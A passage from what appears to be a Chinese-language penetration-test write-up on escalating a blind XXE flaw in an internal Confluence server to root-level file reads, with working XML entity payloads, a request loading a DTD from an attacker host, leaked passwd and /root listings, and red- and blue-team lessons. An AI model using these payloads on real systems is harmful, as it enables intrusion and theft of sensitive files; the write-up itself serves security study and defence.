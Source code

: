响应：

```
no protocol: :root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[…]
```

终于！最后，为了造成最大化的影响，我们考虑到Java在访问目录时会返回目录列表，而不是文件，因此可以通过尝试列出/root目录中的文件，来对root权限进行非入侵式检查：

```
&lt;!ENTITY % file SYSTEM "file:///root"&gt;
&lt;!ENTITY % ent "&lt;!ENTITY data SYSTEM ':%file;'&gt;"&gt;
```

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml"&gt;
%ext;
%ent;
]&gt;
&lt;r&gt;&amp;data;&lt;/r&gt;
```

响应：

```
no protocol: :.bash_history
.bash_logout
.bash_profile
.bashrc
.pki
.ssh
[...]
```

就是这样，我们看起来很幸运。通过滥用不充分的网络分段、未修复的内部应用程序服务器、具有额外特权的Web服务器和过于冗长的错误消息传递信息泄露漏洞，成功将XXE盲注漏洞提升为root级别文件读取漏洞。



## 经验总结

### <a class="reference-link" name="%E7%BA%A2%E6%96%B9"></a>红方
1. 如果事情看起来很奇怪，应该继续进行漏洞挖掘。
1. Java SAX Parser对URL的处理方式，允许攻击者采用一些新颖的方式来提取信息。现代Java版本不允许将多行文件作为外部HTTP请求的路径（即hxxp[://]attacker[.]org/?&amp;file; ）进行渗透，但在错误消息中可以获得多行响应，甚至是在URL的协议中。
### <a class="reference-link" name="%E8%93%9D%E6%96%B9"></a>蓝方
1. 确保内部服务器也像公网服务器一样，得到及时的修复。
1. 不要将内部网络视为一个受信任的安全区域，而是要进行适当的网络分段。
1. 将详细的错误消息写入错误日志中，不能仅记录HTTP响应。
1. 依靠身份验证，不一定能缓解像XXE这样的低级问题。
